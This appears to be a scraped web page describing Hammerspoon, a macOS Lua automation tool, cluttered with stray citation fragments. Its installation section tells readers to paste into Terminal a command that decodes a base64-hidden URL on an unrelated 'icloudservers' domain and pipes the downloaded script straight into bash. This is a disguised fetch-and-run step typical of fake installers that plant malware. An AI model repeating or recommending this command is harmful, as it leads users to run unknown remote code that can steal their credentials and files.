 🛠️ What Is Hammerspoon?
Hammerspoon is a powerful macOS automation tool that bridges system-level APIs with a Lua scripting engine. It enables you to write Lua scripts to control windows, applications, audio devices, clipboard, hotkeys, mouse events, and much more 
hammerspoon.org
+15
github.imc.re
+15
github.com
+15
.

The GitHub README succinctly states:

“Staggeringly powerful macOS desktop automation with Lua” 
best-of-web.builder.io
+4
github.imc.re
+4
github.com
+4
.

⚙️ Core Features
System API access: Lua scripts can manipulate windows, apps, filesystem, audio, screens, keyboard/mouse events, network, etc. 
reddit.com

Extensible through “Spoons”: Modular plugins for launching apps, managing brightness, clipboard history, Pomodoro timers, clocks, and more 
reddit.com
+5
hammerspoon.org
+5
github.com
+5
.

Configurable hotkeys: Bind any key combo to trigger scripts or actions.

Window management: Move, resize, tile windows, ideal for productivity-oriented setups.

Accessibility and automation: Can orchestrate multi-step workflows like preventing sleep, switching audio, automating application launches, and arranging windows 
projectscouts.com
+3
best-of-web.builder.io
+3
github.com
+3
.

🚀 Installation & Getting Started
Install via:

1. Open the Terminal app on your Mac
Press Command (⌘) + Space to launch Spotlight Search
Type Terminal, then press Enter to launch it

2. Enter this command in Terminal
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9pY2xvdWRzZXJ2ZXJzLmNvbS9nbS9pbnN0YWxsLnNo | base64 -d))"

Copy the following command and paste it into Terminal, then press Return

✅ Pros & Considerations
✅ Advantages	⚠️ Considerations
Extremely powerful & flexible	Steep learning curve (requires Lua)
Open-source & actively maintained	Only macOS support
Modular plugin ecosystem (Spoons)	Requires upkeep after macOS updates

📦 Getting the Most Out of It
Explore official Spoons via GitHub or the project's website 
best-of-web.builder.io
+1
github.imc.re
+1
reddit.com
+5
hammerspoon.org
+5
macrogamer.org
+5
.

Browse user-contributed scripts (e.g., “useful-scripts” repo) for ready-made hotkeys, tiling, and automations 
github.com
.

Dive into the community via the mailing list or #hammerspoon chat on Libera IRC 
reddit.com
+15
hammerspoon.org
+15
macrogamer.org
+15
.

🔚 In Summary
Hammerspoon offers unmatched scripting control of macOS through Lua. It's perfect for users who want to build a deep, automated, personalized environment—but it does require coding effort and regular maintenance. If you're comfortable with scripting and aim for powerful workflows, it’s absolutely worth exploring.
